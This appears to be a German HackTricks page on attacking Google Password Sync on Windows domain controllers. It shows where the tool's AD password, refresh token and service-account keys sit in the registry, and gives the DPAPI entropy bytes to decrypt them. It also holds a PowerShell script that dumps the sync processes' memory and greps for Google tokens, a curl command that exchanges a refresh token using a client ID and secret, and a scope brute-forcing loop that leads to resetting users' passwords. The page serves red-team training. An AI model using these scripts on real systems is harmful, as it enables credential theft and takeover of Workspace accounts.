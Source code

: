 # GPS - Google Password Sync

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## Grundinformationen

Dies ist die Binärdatei und der Dienst, den Google anbietet, um die **Passwörter der Benutzer zwischen dem AD** und Workspace **synchronisiert zu halten**. Jedes Mal, wenn ein Benutzer sein Passwort im AD ändert, wird es in Google gesetzt.

Es wird in `C:\Program Files\Google\Password Sync` installiert, wo Sie die Binärdatei `PasswordSync.exe` zur Konfiguration und `password_sync_service.exe` (der Dienst, der weiterhin läuft) finden können.

### GPS - Konfiguration

Um diese Binärdatei (und den Dienst) zu konfigurieren, ist es notwendig, **Zugriff auf ein Super Admin-Konto in Workspace** zu gewähren:

* Anmeldung über **OAuth** mit Google, danach wird **ein Token im Registrierungseditor (verschlüsselt) gespeichert**
* Nur verfügbar auf Domänencontrollern mit GUI
* Bereitstellung von **Service Account-Anmeldeinformationen von GCP** (json-Datei) mit Berechtigungen zur **Verwaltung der Workspace-Benutzer**
* Sehr schlechte Idee, da diese Anmeldeinformationen niemals ablaufen und missbraucht werden könnten
* Sehr schlechte Idee, einem SA Zugriff auf Workspace zu gewähren, da der SA in GCP kompromittiert werden könnte und es möglich wäre, zu Workspace zu pivotieren
* Google verlangt dies für domänenkontrollierte Systeme ohne GUI
* Diese Anmeldeinformationen werden ebenfalls im Registrierungseditor gespeichert

Bezüglich AD ist es möglich, anzugeben, dass der aktuelle **Anwendungskontext, anonym oder einige spezifische Anmeldeinformationen** verwendet werden sollen. Wenn die Option Anmeldeinformationen ausgewählt ist, wird der **Benutzername** in einer Datei auf der **Festplatte** gespeichert und das **Passwort** ist **verschlüsselt** und im **Registrierungseditor** gespeichert.

### GPS - Dumping Passwort und Token von der Festplatte

{% hint style="success" %}
Beachten Sie, dass [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) in der Lage ist, **GPS** zu erkennen, Informationen über die Konfiguration zu erhalten und **sogar das Passwort und Token zu entschlüsseln**.
{% endhint %}

In der Datei **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** ist es möglich, Teile der Konfiguration wie den **`baseDN`** des konfigurierten AD und den **`Benutzernamen`**, dessen Anmeldeinformationen verwendet werden, zu finden.

Im Registrierungseditor **`HKLM\Software\Google\Google Apps Password Sync`** ist es möglich, das **verschlüsselte Refresh-Token** und das **verschlüsselte Passwort** für den AD-Benutzer (falls vorhanden) zu finden. Darüber hinaus, wenn anstelle eines Tokens einige **SA-Anmeldeinformationen** verwendet werden, ist es auch möglich, diese verschlüsselt an dieser Registrierungsadresse zu finden. Die **Werte** in dieser Registrierung sind nur für **Administratoren** **zugänglich**.

Das verschlüsselte **Passwort** (falls vorhanden) befindet sich im Schlüssel **`ADPassword`** und ist mit der **`CryptProtectData`** API verschlüsselt. Um es zu entschlüsseln, müssen Sie der gleiche Benutzer sein wie der, der die Passwortsynchronisierung konfiguriert hat, und diese **Entropie** verwenden, wenn Sie die **`CryptUnprotectData`** verwenden: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

Das verschlüsselte Token (falls vorhanden) befindet sich im Schlüssel **`AuthToken`** und ist mit der **`CryptProtectData`** API verschlüsselt. Um es zu entschlüsseln, müssen Sie der gleiche Benutzer sein wie der, der die Passwortsynchronisierung konfiguriert hat, und diese **Entropie** verwenden, wenn Sie die **`CryptUnprotectData`** verwenden: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Darüber hinaus ist es auch mit base32hex unter Verwendung des Wörterbuchs **`0123456789abcdefghijklmnopqrstv`** codiert.

Die Entropiewerte wurden mit dem Tool gefunden. Es wurde konfiguriert, um die Aufrufe von **`CryptUnprotectData`** und **`CryptProtectData`** zu überwachen, und dann wurde das Tool verwendet, um `PasswordSync.exe` zu starten und zu überwachen, das das konfigurierte Passwort und das Auth-Token zu Beginn entschlüsselt, und das Tool wird **die Werte für die verwendete Entropie** in beiden Fällen anzeigen:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Beachten Sie, dass es auch möglich ist, die **entschlüsselten** Werte in den Eingaben oder Ausgaben der Aufrufe dieser APIs zu sehen (für den Fall, dass Winpeas irgendwann nicht mehr funktioniert).

Falls die Passwortsynchronisierung **mit SA-Anmeldeinformationen konfiguriert wurde**, wird sie ebenfalls in Schlüsseln im Registrierungseditor **`HKLM\Software\Google\Google Apps Password Sync`** gespeichert.

### GPS - Dumping Tokens aus dem Speicher

Genau wie bei GCPW ist es möglich, den Speicher des Prozesses von `PasswordSync.exe` und den Prozessen `password_sync_service.exe` zu dumpen, und Sie werden in der Lage sein, Refresh- und Zugriffstoken zu finden (falls sie bereits generiert wurden).\
Ich nehme an, Sie könnten auch die konfigurierten AD-Anmeldeinformationen finden.

<details>

<summary>Dump <code>PasswordSync.exe</code> und die <code>password_sync_service.exe</code> Prozesse und suchen Sie nach Tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Zugriffstoken aus Aktualisierungstoken generieren

Mit dem Aktualisierungstoken ist es möglich, Zugriffstoken zu generieren, indem es zusammen mit der Client-ID und dem Client-Geheimnis verwendet wird, die im folgenden Befehl angegeben sind:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
Beachten Sie, dass es selbst mit einem Refresh-Token nicht möglich ist, einen beliebigen Scope für das Access-Token anzufordern, da Sie nur die **Scopes anfordern können, die von der Anwendung unterstützt werden, in der Sie das Access-Token generieren**.

Außerdem ist das Refresh-Token nicht in jeder Anwendung gültig.
{% endhint %}

Standardmäßig hat GPS nicht als Benutzer Zugriff auf jeden möglichen OAuth-Scope. Mit dem folgenden Skript können wir die Scopes finden, die mit dem `refresh_token` verwendet werden können, um ein `access_token` zu generieren:

<details>

<summary>Bash-Skript zum Brute-Forcen von Scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Und das ist die Ausgabe, die ich zum Zeitpunkt des Schreibens erhalten habe:
```
https://www.googleapis.com/auth/admin.directory.user
```
Welches dasselbe ist, das Sie erhalten, wenn Sie keinen Geltungsbereich angeben.

{% hint style="danger" %}
Mit diesem Geltungsbereich könnten Sie **das Passwort eines bestehenden Benutzers ändern, um Berechtigungen zu eskalieren**.
{% endhint %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
